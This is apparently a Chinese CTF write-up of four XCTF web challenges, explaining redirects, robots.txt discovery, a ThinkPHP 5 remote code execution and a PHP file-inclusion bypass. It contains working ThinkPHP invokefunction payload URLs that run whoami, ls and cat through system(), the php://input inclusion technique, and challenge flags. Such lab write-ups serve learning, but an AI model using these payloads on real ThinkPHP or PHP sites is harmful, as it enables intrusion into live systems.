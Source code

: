 ```yaml
---
title: 攻防世界Web高手进阶题
date: 2021-08-12 16:14:08
tags: [CTF,Web]
categories: CTF
---
```

# baby_web64
## 题目
&emsp;&emsp;难度系数： 1.0  
&emsp;&emsp;题目来源： 暂无  
&emsp;&emsp;题目描述：想想初始页面是哪个
## 解答
&emsp;&emsp;根据提示，直接访问index.php，发现被重定向回1.php，F12看请求，找到答案。

[![image81e277c1fdc7463e.md.png](https://pic.lufer.cc/images/2021/08/12/image81e277c1fdc7463e.md.png)](https://pic.lufer.cc/image/dcwo)

# Training-WWW-Robots
## 题目
&emsp;&emsp;难度系数： 1.0  
&emsp;&emsp;题目来源： 暂无  
&emsp;&emsp;题目描述：暂无  
## 解答
&emsp;&emsp;访问robots.php,得到网站目录。
```
User-agent: *
Disallow: /fl0g.php


User-agent: Yandex
Disallow: *
```
&emsp;&emsp;访问fl0g.php，得到答案`cyberpeace{67670cc4fa7382a7a38f780508caa43b}`。

# php_rce
## 题目
&emsp;&emsp;难度系数： 2.0  
&emsp;&emsp;题目来源： 暂无  
&emsp;&emsp;题目描述：暂无  
## 解答
&emsp;&emsp;根据题目描述，应该是远程代码执行漏洞，实验环境提示是ThinkPHPV5，百度搜索该版本的远程执行漏洞，得到代码如下：
`/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami`

&emsp;&emsp;通过ls命令查看目录文件，发现没有，开始往上层找，最终再三层之后找到了flag文件：

`/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls%20../../../`

>bin boot dev etc flag home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var var

&emsp;&emsp;cat一下flag文件得到答案：

`/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat%20../../../flag`

>flag{thinkphp5_rce} flag{thinkphp5_rce}

# Web_php_include
## 题目
&emsp;&emsp;难度系数： 2.0  
&emsp;&emsp;题目来源： XTCTF  
&emsp;&emsp;题目描述：暂无  
## 解答
&emsp;&emsp;根据题目描述，应该是PHP的文件包含漏洞。  
&emsp;&emsp;PHP的文件包含漏洞是指对于PHP中4个函数`include`、`include_once`、`require`、`require_once`，当利用这四个函数来包含文件时，不管文件是什么类型（图片、txt等等），都会直接作为php文件进行解析。  
&emsp;&emsp;观察题目环境，注意到是include了page页面，所以可以在对page的访问中构造攻击命令。
```php
<?php
show_source(__FILE__);
echo $_GET['hello'];
$page=$_GET['page'];
while (strstr($page, "php://")) {
    $page=str_replace("php://", "", $page);
}
include($page);
?>
```
&emsp;&emsp;然后PHP的文件包含漏洞攻击有两个常用命令：
1. php://input  
&emsp;&emsp;这个协议的利用方法是 将要执行的语法php代码写在post中提交，不用键与值的形式，只写代码即可。
2. php://filter  
&emsp;&emsp;设计用来过滤筛选文件，通过filter非php语法文件导致include失败，直接输出源码内容。

&emsp;&emsp;先采用input方法执行ls指令来查看目录下都有什么文件。  
&emsp;&emsp;由于代码中对php进行了替换，借助str_replace对大小写敏感来绕过替换。

![image4c3fad9ca61d3e16.png](https://pic.lufer.cc/images/2021/08/12/image4c3fad9ca61d3e16.png)

&emsp;&emsp;发现目录下有疑似flag的文件，cat一下内容。

![imaged1b72a13a09c1fcf.png](https://pic.lufer.cc/images/2021/08/12/imaged1b72a13a09c1fcf.png)

&emsp;&emsp;得到答案`ctf{876a5fca-96c6-4cbd-9075-46f0c89475d2}`。